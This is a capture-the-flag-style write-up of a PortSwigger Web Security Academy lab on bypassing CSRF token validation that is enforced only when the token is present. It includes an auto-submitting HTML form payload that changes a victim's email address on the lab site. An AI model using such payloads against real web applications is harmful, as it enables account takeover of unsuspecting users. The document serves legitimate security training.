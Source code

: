 # Lab Writeup: CSRF where token validation depends on token being present

URL: https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

## Description

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

1. Login with `wiener:peter`
2. Try changing the email address, then intercept the request:

   ![csrf-token-dependant](/assets/csrf-token-dependant.png)

   From the above intercepted request and response, we know that the URL to change the email is `/my-account/change-email` with the method `POST` we could also see that a **CSRF token** is required to do the `POST` request

3. Create the following payload:

   ```html
   <!DOCTYPE html>
   <html>
     <body>
       <form
         action="https://0a8700c903b7eff4808580f2009c0028.web-security-academy.net/my-account/change-email"
         method="POST"
       >
         <!-- the only input value -->
         <input type="text" name="email" value="hacker@gmail.com" />
         <!-- notice that the csrf token value is not existant -->
       </form>
       <script type="text/javascript">
         // automatically upload form on open
         document.forms[0].submit();
       </script>
     </body>
   </html>
   ```

   From the above notice that the csrf token value and parameter is non existant in the form (usually `<input type="hidden" name="csrf" value="some_token" />`)

4. Store, deliver to victim, and the lab should be solved:

   ![csrf-token-dependant-1](/assets/csrf-token-dependant-1.png)
